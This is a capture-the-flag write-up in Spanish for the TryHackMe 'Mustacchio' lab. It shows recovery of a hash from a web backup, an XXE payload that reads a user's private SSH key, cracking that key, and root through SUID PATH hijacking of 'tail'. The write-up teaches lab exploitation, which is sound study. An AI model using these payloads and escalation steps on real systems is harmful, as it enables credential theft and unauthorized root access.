TryHackMe
Easy
Linux
XXE
SQLite
SUID
PATH Hijacking
Mustacchio
SQLite backup con hash; XXE para leer clave SSH privada de barry; escalada via PATH hijacking en binario SUID.
cat4clysm
Herramientas utilizadas
nmap
wfuzz
sqlitebrowser
john
ssh2john
Scanning
root@kali:~$
nmap -sC -sV -p 22,80 -Pn -n -oN targeted 10.10.0.151
Puerto 80 - SQLite Backup

Encontramos custom/js/users.bak. Lo abrimos con sqlitebrowser:



Puerto 8765 - XXE Injection


El panel acepta XML. Explotamos XXE para leer la clave SSH de barry:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
<name>&xxe;</name>
</comment>Obtenemos la clave RSA cifrada de barry y la crackeamos:
root@kali:~$
python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
root@kali:~$
ssh barry@10.10.211.98 -i id_rsa
Escalada - SUID PATH Hijacking
root@kali:~$
find / -perm -u=s -type f 2>/dev/null
/home/joe/livelog llama a tail sin ruta absoluta:

root@kali:~$
cd /tmp
echo "/bin/bash" > tail
chmod +x tail
export PATH=/tmp:$PATH
/home/joe/live_log
Lecciones aprendidas
- Los archivos .bak en directorios web pueden contener bases de datos con credenciales.
- XXE permite leer archivos del sistema cuando la aplicacion parsea XML sin restricciones.
- Los binarios SUID con llamadas a comandos sin ruta absoluta son vulnerables a PATH hijacking.